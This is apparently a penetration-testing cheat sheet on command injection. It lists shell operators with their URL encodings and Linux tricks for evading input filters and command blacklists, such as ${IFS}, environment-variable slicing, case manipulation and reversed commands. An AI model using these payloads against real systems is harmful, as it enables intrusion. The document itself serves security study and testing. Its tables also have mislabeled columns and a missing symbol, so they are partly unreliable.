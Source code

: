 # Command Injection

## Common Injection Characters

| Character | URL Encoded | Linux | Windows |
|-----------|--------------|-------|---------|
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell (backticks) | `` | `%60%60` | Both (Linux-only) |
| Sub-Shell (dollar parenthesis) | `$()` | `%24%28%29` | Both (Linux-only) |

## Linux

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `printenv` | Can be used to view all environment variables |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** | |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** | |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** | |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |